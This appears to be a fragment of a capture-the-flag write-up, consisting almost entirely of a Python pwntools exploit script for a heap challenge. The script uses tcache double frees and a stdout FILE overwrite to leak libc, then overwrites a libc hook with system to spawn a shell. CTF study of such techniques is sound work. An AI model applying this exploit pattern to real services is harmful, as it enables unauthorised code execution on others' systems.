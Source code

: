 ```python=
  add("3") # 2
  add("4") # 3
  remove(3)
  remove(3)
  remove(2)
  remove(2)
  remove(0)
  remove(0)
  add("\xb0") # 0
  add("\xb0") # 2
  add("A"*8 + p64(0xa1)) # 3
  for i in xrange(3):
    remove(0)
    remove(0)
    edit(2,"\xc0")
    add("A") # 0
    add("A") # 4
    remove(4)
    remove(4)
  remove(0)
  remove(0)
  edit(2,"\xc0")
  add("A") # 0
  add("A") # 4
  edit(3,"D"*8 + p64(0x51))
  remove(1)
  remove(1)
  edit(3,"D"*8 + p64(0xa1))
  remove(4)
  remove(4)
  edit(3,"D"*8 + p64(0x51) + p16(0x3760))

  add("A")
  add(p64(0xfbad3c80) + p64(0)*3 + "\x00")
  r.recv(8)
  libc = u64(r.recv(8).ljust(8,"\x00")) - 0x3ed8b0

  edit(3,"sh\x00")
  remove(0)
  remove(0)
  add(p64(libc + 0x3ed8e8))
  add(p64(libc + 0x3ed8e8))
  add(p64(libc + 0x4f440))
  remove(3)
  r.sendline("ls")

  r.interactive()

```

### line
